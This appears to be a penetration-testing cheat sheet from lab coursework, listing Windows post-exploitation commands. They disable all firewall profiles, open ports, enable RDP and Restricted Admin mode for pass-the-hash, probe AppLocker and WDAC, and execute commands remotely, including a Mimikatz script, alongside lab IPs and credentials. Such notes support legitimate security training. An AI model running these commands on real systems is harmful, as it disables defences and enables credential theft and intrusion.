 - Disable Firewall
`Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False`

- Create a New Inbound Firewall Rule
`New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`

- Create a New Inbound Firewall Rule
`New-NetFirewallRule -DisplayName "8080-Out" -Direction Outbound -Protocol TCP -Action Allow -LocalPort 8080`

- Enable RDP
`Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Terminal Server' fDenyTSConnections 0`
`Enable-NetFirewallRule -DisplayName 'Remote Desktop - User Mode (TCP-In)'`
`Enable-NetFirewallRule -DisplayName 'Remote Desktop - User Mode (UDP-In)'`

- Enable Restricted Admin Mode to Allow PtH
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

- Enumerate PowerShell Language Mode
`$ExecutionContext.SessionState.LanguageMode`

- Query Applocker Policies in the Registry
`reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2`

- Check for WDAC
`Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard`

- Bypass WDAC Bby trying Microsoft signed Binaries and Scripts - see the [LOLBAS project](https://lolbas-project.github.io/).
#### Access Machines Remotely
- Remote access via SSH
`ssh htb-student@10.129.176.110`

- Remote access via RDP
`xfreerdp /v:10.129.201.234 /u:htb-student /p:'Academy_student_AD!'`
(if xfreerdp is not working → (`apt reinstall freerdp2-x11`)

- Specify credentials for another user
`$passwd = ConvertTo-SecureString -AsPlainText -Force -String <PASSWORD>`
`$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "Domain\User",$passwd`

- Access another computer remotely in the context of our current user
`winrs -r:us-mailmgmt cmd`

- Access another computer remotely in the context of a local user on that computer
`winrs -r:us-mailmgmt -u:.\administrator -p:t7HoBF+m]ctv.] cmd`

- Run commands on a remote computer.
`Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <COMPUTER> -Credential $cred`

- Run a PowerShell script on a remote computer.
`Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $mailmgmt`
